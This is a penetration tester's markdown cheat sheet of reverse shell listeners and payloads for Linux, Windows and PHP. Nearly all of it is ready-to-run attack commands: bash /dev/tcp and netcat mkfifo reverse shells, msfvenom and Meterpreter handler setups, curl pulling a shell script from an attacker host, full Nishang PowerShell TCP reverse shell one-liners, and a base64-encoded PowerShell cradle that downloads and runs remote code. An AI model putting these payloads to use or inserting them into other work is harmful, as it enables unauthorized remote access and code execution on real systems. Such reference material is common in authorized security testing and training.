 # Linux

## Listeners

Netcat
`nc -lvnp port`

Meterpreter Linux x64 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Note: Sometimes need to sh or bash -c 'revshell' for these to work.

Other Note: Can curl --data-urlencode params
```
curl http://target/file --data-urlencode "paramname=paramvalue"

Great for initial access via revshells through web shells.
```

sh -i
`sh -i >& /dev/tcp/ipaddress/port 0>&1`

nc mkfifo
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ipaddress port >/tmp/f`

nc -e
`nc ipaddress port -e sh`

Base64 Revshell Linux
```
echo -n 'payload' | base64 > payload.b64 # Can add spaces to eliminate plus signs

echo payload.b64 | base64 -d | bash
```

Curl (still need to chmod and execute)
`curl attacker:port/shell.sh -o /remote/shell.sh`

Meterpreter Linux x64 Reverse TCP Staged
`msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f elf -o shell`

# Windows

## Listeners

Meterpreter Windows x86 Reverse TCP Staged
```
msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost ipaddress
set lport port
run
```

## Payloads

Meterpreter Windows x86 Reverse TCP Staged
`msfvenom -p windows/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Meterpreter Windows x64 Reverse TCP Staged
`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ipaddress lport=port -f exe > shell.exe`

Netcat
`nc.exe -e cmd.exe ipaddress port`

Nishang Invoke-PowerShellTcpOneLine.ps1
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1
```
$client = New-Object System.Net.Sockets.TCPClient('ipaddress',port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

$sm=(New-Object Net.Sockets.TCPClient('ipaddress',port)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

Nishang Invoke-PowerShellTcp.ps1
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
```
echo -n "IEX(new-object net.webclient).downloadstring('http://attacker/Invoke-PowerShellTcp.ps1')" | iconv -t UTF-16LE | base64 -w0 > payload.b64

# iconv converts payload to encoding used by Windows

echo 'Invoke-PowerShellTcp -Reverse -IPAddress ipaddress -Port port' >> Invoke-PowerShellTcp.ps1

start listener
start webserver

powershell -enc payload.b64
```

# PHP

Pentest Monkey
`/usr/share/webshells/php/php-reverse-shell.php`
